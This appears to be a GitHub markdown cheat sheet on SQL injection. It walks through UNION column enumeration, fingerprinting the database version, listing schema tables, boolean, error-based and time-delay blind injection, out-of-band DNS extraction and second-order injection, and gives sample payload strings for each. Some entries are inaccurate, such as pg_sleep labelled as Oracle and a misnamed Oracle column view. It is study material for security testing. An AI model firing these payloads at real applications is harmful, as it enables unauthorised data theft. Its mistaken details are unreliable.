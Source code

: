 # SQL Injection

![sqli](https://github.com/DK9510/Img/blob/main/sql-inection.png)

## what is  SQL injection
in this vulnearabilty the malicious sql statement will be inject by the attacker to compromise the database or server

## where to find
* see the parameter were the client send  the request in form GET POST and we use `` ' , \ ) " "'`` etc to manipulate user input and break query.   
* some site use filters to validate client input so we use URL encoded payloads 

## union Query 
for successfully execution union query  we must meet the no. of columns returning 

## find number of columns vulnerable to SQL I
1. use order by 1 (integer ) and increment until error goes on
this will give us the number of columns that are returning
2. or another  method is UNION Select NULL,NULL --  "if number of null DOESN'T match then DB gives error"
#### note for Oracle Database 
always use **From Dual --** in select query because it is the builtin table in oracle.

## find the column which gives us the string value in return 
```bash
Query= 'UNION SELECT NULL,"A"+--+'
```
OR
```bash
query = ' UNION SELECT "A",NULL --+'
```
(if returns our string value in any columns that is data retrival point we can say)

## find DataBase Type and Version
|Database | Query |
|---|---|
|Microsoft | 'Select @@version'|
|MySQL |'Select @@version'|
|Oracle | 'Select \* from v\$Version'|
|PostgreSQL| 'Select version()'|

## listing content of DB 
#### Listing tables 
```bash
Query= 'information_schema.tables' 
```
(list out the table names in the database)
#### listing columns
```bash
Query= ' Select * from information_schema.columns Where table_name="table name we know" '
```
***NOTE:  always use + instead of (space)***

### For Oracle DataBase

**For tables**
```bash
Query= 'Select * from all_tables '
```
**For columns** 
```bash
Query= 'Select * from all_tables_columns where table_name="table name"'
```
## String Concation 
***used for concatenation multiple string in the single string***

|***Database* **| ***Method for concate***|
|---|---|
|**Oracle **|** 'str1'  \| \|'str2'** |
|**Microsoft** |** 'str1'+str2**|
|**PostgreSQL**|**'stind r1' \|\|'str2'**|
|**MySql** | **'str1'(space)'str2'  OR CONCATE('str1','str2')**|

## Sub-string or retrieve part of the string
|DataBase| Query|
|---|---|
|Oracle |SUBSTR('the payload to return string or string', index_of_string, number_of_charector_to retrive)|
|Microsoft|SUBSTRING('STRING ', Index, number of character)|
|PostgreSQL| SUBSTRING('string', index, character)|
|MySQL| SUBSTRING('string', index, character)|

## Comments in SQL
|DataBase|Comment|
|---|---|
|Oracle|'--'|
|Microsoft|'--'and /\*\*/|
|PostgreSql|'--' and /\*\*/ |
|MySQL| \# , --(white space), /\*\*/ |

# Blind sql injection vulnerability

### how to exploit 
1. change logic of the Query to trigger detectable difference
2. trigger time delay
3. trigger out of band network interaction

### using conditional Response
```bash
Query = ' xyz AND "1"="1' 
```
**if get response than xyz if true other wise it DIDN'T get response from server**    or
```bash
Query = ' xyz AND "1"="2'
```

### inducing conditional Response by Triggering SQL Error
```bash
Query = 'xyz AND ( Select CASE WHEN (1=2) Then 1/0 Else "a" END)="a'
```
**if condition is true server gives us the error if false 
coudnt get error**

##### for Oracle Data base 
```bash
Query= 'xyz || (select case when(1=1) Then To_char(1/0) Else '' END From DUAL \|\| '
```

### exploit BY Generating Delay 
```bash
query = '; if (condition true) waitfor Delay '0:0:10:'+--+'
```
gives 10 second delay in response if condition true else DIDN'T delay in response

##### for oracle DB
```bash
Query = '\|\| pg_sleep(delay in seconds)+--+'
```

### exploit using OUt of band 
in this append data in the form of subdomain in our domain and make a DNS lookup
that will reflect in our network traffic and that way we can extract data.
we also use burp collaberator

# 2nd Order SQL Injection
#### it happens when our input stored in the application and then later handling different HTTP request the app retrieve stored data and our sql query is executed and we successfully u injected our payload in the server and also executed our SQL Query.
